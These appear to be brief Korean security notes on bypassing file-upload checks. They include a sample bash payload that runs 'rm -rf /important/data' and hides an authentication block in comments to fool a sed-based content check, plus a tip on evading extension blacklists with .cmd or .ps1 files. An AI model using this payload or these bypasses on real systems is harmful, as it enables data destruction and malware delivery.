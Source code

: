 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능  
#!/bin/bash  
rm -rf /important/data  
#{  
#"key": "authentication code"  
#}  


확장자가 블랙리스트 방식으로 허용될 경우  
.cmd , .ps1 등의 확장자로 우회하여 악성 파일 배포 가능  
